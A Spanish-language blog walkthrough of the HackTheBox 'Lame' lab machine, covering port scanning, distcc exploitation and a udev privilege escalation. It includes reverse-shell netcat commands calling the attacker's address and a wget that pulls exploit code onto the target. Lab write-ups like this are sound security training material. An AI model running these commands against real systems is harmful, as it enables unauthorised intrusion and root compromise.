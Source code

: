 ```yaml
---
layout: post
title:  "HTB_Lame"
date:   2020-08-17 18:36:10 -0500
categories: HackTheBox
---
```


## HTB Lame ##

![Pic](https://petesect18.github.io/writeups/assets/Lame/Picture.png)

### Reconocimiento ###

Utilize la herramienta *Autorecon* de Tiberius para un reconocimiento inicial y en paralelo corri nmap para ver que puertos estaban abiertos.

` nmap -A -p- 10.10.10.3 `

Luego de terminar autorecon - entre en el folder de scans y puedo obtener la siguiente informacion de los puertos abiertos:

- **Puerto 21**: FTP (vsftpd 2.3.4), permite acceso anonimo al share.
- **Puerto 22**: OpenSSH (4.7p), casi nunca es vulnerable
- **Puerto 139 y 445**: Samba, uno tiene el 3.0-4.0 y el otro 3.0.20
- **Puerto 3632**: Distcc, nunca en la vida habia escuchado de ese servicio, autorecon lo muestra en los _pattern

![autorecon](/assets/Lame/autorecondistcc.png)

### Enumeracion ###

#### Puerto21 ####
Primero empezamos con nuestros puntos de entrada - buscamos en google y nos damos cuenta que esta version de vsftpd es vulnerable, buscamos un script de nmap para asegurarnos de que esto sea posible.

` ls /usr/share/nmap/scripts/ftp* `

Vemos que existe uno para vsftpd que se llama *vsftpd-backdoor.nse*

Ejecutamos el script
` nmap --script ftp-vsftpd-backdoor.nse -p 21 10.10.10.3 `

Nos dice que no es vulnerable, nos movemos a nuestro siguiente punto de entrada

#### Puerto 22 ####
SSH es lo ultimo que queremos mirar, pasemos a los samba

#### Puerto 139 ####
` smbclient -L 10.10.10.3 `

Me da un error *protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED*

` smbmap -H 10.10.10.3 `

Si muestra que tenemos read/write access a un folder que se llama oh noes!

Buscando en google para vulnerabilidades de esta version de Samba, hay varias, pero la mayoria necesitan Metasploit, asi que pasamos a nuestro siguiente puerto

### Exploitation ###

#### Port 3632 Distcc ####

En el _Pattern log de autorecon, sale que nmap encontro una vulnerabilidad en este puerto, para asegurarnos corremos

` nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3 `

Y Efectivamente, si es vulnerable!

Buscando la vulnerabilidad en google - encontramos un script de python que nos puede dar acceso en shell, solo tenemos que seguir las instrucciones.

![script](/assets/Lame/script.png)

- `nc -nlvp 1403`
- ` exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.16.85 1403 -e /bin/sh" `

Cuando corres el exploit te va a dar un socket timeout pero ya estas in - lo que tienes que hacer despues es spawn un TTY shell

` python -c 'import pty; pty.spawn("/bin/sh")' `

![exploit](/assets/Lame/shell.png)

Buscamos nuestro user.txt

### Privilege Escalation ###
Buscando en google la version del sistema operativo para ver vulnerabilidades encontramos un exploit escrito en .c [2009-1185](https://www.exploit-db.com/exploits/8572) lo buscamos en searchsploit y lo bajamos a nuestro folder.

` searchsploit -m 8572.c `

Seteamos un servidor python en nuestra maquina atacante

` python3 -m http.server `

En la maquina objetivo, hacemos un wget

` wget http://10.10.16.85/8572.c `

Compilamos el exploit usando gcc

` gcc 8572.c -o 8572 `

Seguimos las instrucciones que salen en el script

[Instrucciones]

Tenemos que:
- Darle el PID (ProcessID) del udevd netlink socket
- Crear un run file en /tmp y agregarle un reverse shell

` ps -aux | grep devd `

o tambien usando

` cat /proc/net/netlink `

Este va a tener uno menos que el DEVD inet, el que hay que usar - 2687 o el que sale en ` cat /proc/net/netlink `

![inet](/assets/Lame/PID.png)


Segundo paso es crear un run file en /tmp y agregarle el reverse shell
- ` #!/bin/bash `
- ` nc -nv 10.10.16.85 4444 -e /bin/bash `

Seteamos un listener en nuestra maquina con el puerto que establecimos anteriormente y ejecutamos el exploit con el PID que identificamos

![Root](/assets/Lame/root.png)

### Notas ###
- Full port scans
- Enumeracion de servicios
- Compilar exploits y transferirlos de una maquina a otra
